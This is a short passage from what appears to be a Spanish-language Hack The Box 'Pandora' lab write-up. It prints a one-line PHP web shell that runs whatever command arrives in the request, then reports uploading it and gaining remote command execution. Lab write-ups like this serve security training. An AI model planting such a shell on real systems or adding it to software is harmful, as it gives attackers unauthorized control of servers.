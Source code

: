 ```bash
❯ catn cmd.php
<?php
	echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

Ahora vamos a subir el archivo 

Y vemos que si se pudo subir 

![](/assets/images/htb-writeup-pandora/web22.png)

Y funciono 

![](/assets/images/htb-writeup-pandora/web23.png)

Tenemos ejecución remota de comandos 

![](/assets/images/htb-writeup-pandora/web24.png)
